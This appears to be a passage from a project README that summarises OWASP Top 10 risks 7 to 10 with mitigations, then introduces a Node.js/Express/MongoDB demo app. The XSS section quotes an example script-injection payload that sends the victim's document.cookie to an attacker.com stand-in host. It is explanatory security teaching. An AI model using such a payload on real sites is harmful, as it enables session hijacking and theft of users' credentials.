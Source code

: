 7. **Cross-Site Scripting (XSS)**

    XSS flaws occur whenever an application takes untrusted data and sends it to a web browser without proper validation or escaping. XSS allows attackers to execute scripts in the victims' browser, which can access any cookies, session tokens, or other sensitive information retained by the browser, or redirect user to malicious sites. According to OWASP, XSS is the second most prevalent issue in the Top 10, and is found in around two-thirds of all applications. 

    For example, the application uses untrusted data in the construction of the following HTML snippet without validation or escaping: `(String) page += "<input name='creditcard' type='TEXT' value='" + request getParameter("CC") + "'>";` The attacker modifies the ‘CC’ parameter in the browser to: `'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi? foo='+document.cookie</script>'.` This attack causes the victim’s session ID to be sent to the attacker’s website.

    To mitigate XSS, whitelist input validation and data sanitization are essential. Using modern web development frameworks like ReactJS and Ruby on Rails also provides some built-in XSS protection.

8. **Insecure Deserialization**
    
    Applications and APIs will be vulnerable if they deserialize hostile or tampered objects supplied by an attacker, and can result in serious consequences like DDoS attacks and remote code execution attacks.
    
    To protect against insecure deserialization, although monitoring deserialization and implementing type checks would help, the only safe way is to should never accept serialized objects from untrusted sources and to prohibit the deserialization of data from untrusted sources. 

9. **Using Components with known Vulnerabilities**

    Components could be libraries, frameworks, and other software modules. Since these components always run with full privileges, if components with known vulnerabilities are exploited, such an attack can seriously affect the application. 

    To minimize the risk of running components with known vulnerabilities, developers should remove unused dependencies and unnecessary features, components, files or documentation from their projects, as well as ensuring that they are monitoring and receiving components from a trusted source and ensuring they are secure and up to date. 

10. **Insufficient Logging & Monitoring**

    Many web applications are not taking enough steps to detect data breaches, which means the release of confidential, private, or otherwise sensitive information into an unsecured environment. In 2016, identifying a breach took an average of 191 days, which gives attackers a lot of time to cause damage before there is any response. 

    Since attackers rely on the lack of monitoring and timely response to
    achieve their goals without being detected, OWASP recommends that web developers should implement logging and monitoring as well as incident response plans to ensure that they are made aware of attacks on their applications.


## About the Web App

The starting point of this web app is from [here](https://github.com/cwbuecheler/node-tutorial-2-restful-app), which is a simple nodeJS web app with a list of all users. Then to make it a functional web application, I added user authentication, user creation without duplicates, data modification, session persistent etc. The app is developed in node.js and express and connected to NoSQL database MongoDB. 
